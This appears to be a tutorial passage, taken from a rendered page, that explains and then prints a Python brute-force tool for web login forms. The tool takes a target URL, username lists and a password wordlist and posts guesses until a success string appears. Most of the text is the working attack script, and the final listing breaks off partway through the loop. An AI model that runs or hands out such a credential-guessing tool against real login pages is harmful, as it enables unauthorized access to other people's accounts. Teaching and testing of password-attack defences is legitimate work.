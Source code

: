 In the main bruteforce function, the script iterates through each username in the list, opening the passwords file and attempting each password in turn. For each password, it strips any newline characters, encodes the password as bytes, and sends a POST request to the target login page with the username and password as form data. The progress is displayed on the console, showing the current username and password being tested. If the login attempt is successful (indicated by the presence of the needle string in the response), the script outputs the valid password for the username and stops further execution.

```python
sys.stdout.write("\n")
            sys.stdout.write("\tNo password found for '{}'!".format(username))
    except FileNotFoundError:
        print(f"Error: File '{passwords_file}' not found.")
        sys.exit(1)
```

In the failure handling section, if no valid password is found for a user after all attempts, the script outputs a message indicating failure for that username. If the passwords file is missing or cannot be accessed, a `FileNotFoundError` is caught, an error message is printed, and the script exits. This ensures that the user is informed about any issues with the files being used.

The final version of the script is below:

```python
import requests  
import sys
import argparse  

parser = argparse.ArgumentParser(description="Web Login Bruteforce Tool")
parser.add_argument("-t", "--target", required=True, help="Target URL")
parser.add_argument("-u", "--username", help="Single username to test")
parser.add_argument("-U", "--usernames", help="File containing list of usernames")
parser.add_argument("-w", "--wordlist", required=True, help="File containing list of passwords")
parser.add_argument("-n", "--needle", default="Login successful!", help="Needle (success message) to identify successful login")
args = parser.parse_args()

target = args.target    
passwords_file = args.wordlist
needle = args.needle  

if not args.username and not args.usernames:
    print("Error: You must specify either a single username (-u) or a username file (-U).")
    sys.exit(1)

if args.username:
    usernames = [args.username]
elif args.usernames:
    try:
        with open(args.usernames, "r") as f:
            usernames = [line.strip() for line in f if line.strip()]
    except FileNotFoundError:
        print(f"Error: File '{args.usernames}' not found.")
        sys.exit(1)

for username in usernames:
    try:
        with open(passwords_file, "r", encoding="latin-1") as passwords_list:
            for password in passwords_list:
                password = password.strip("\n").encode()
                sys.stdout.write("[X] Attempting user:password -> {}:{}\r".format(username, password.decode()))
                sys.stdout.flush()
                r = requests.post(target, data={"username": username, "password": password})
                if needle.encode() in r.content:
                    sys.stdout.write("\n")
```

[^1]: Source: [Python Documentation](https://docs.python.org/3/)
